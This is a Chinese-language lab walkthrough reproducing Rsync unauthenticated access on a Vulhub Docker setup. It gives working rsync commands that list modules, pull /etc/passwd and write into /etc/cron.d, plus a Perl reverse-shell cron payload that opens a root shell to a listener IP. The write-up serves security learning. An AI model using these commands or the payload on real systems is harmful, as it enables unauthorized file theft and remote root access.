


# Rsync 未授权访问漏洞

## 漏洞描述

Rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

## 环境搭建

Vulhub编译及运行Rsync服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，可以使用Rsync命令访问：

```
rsync rsync://your-ip:873/
```



> 若Vulhub环境启动时报错`standard_init_linux.go:211: exec user process caused "no such file or directory"`，执行命令 `dos2unix docker-entrypoint.sh`，即可成功启动。

## 漏洞复现

访问建立后，可以查看模块名列表，有一个src模块，我们再列出这个模块下的文件：

```
rsync rsync://your-ip:873/src/
```

这是一个Linux根目录，我们可以下载任意文件：

```
rsync -av rsync://your-ip:873/src/etc/passwd ./
```

或者写入任意文件：

```
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

### 反弹shell

写入cron任务反弹shell。

shell文件内容如下：

```
# 此处指定用户root不可省略
* * * * * root perl -e 'use Socket;$i="192.168.174.128";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

上传shell文件触发反弹shell：

```
rsync -av shell rsync://192.168.174.128:873/src/etc/cron.d/shell
```




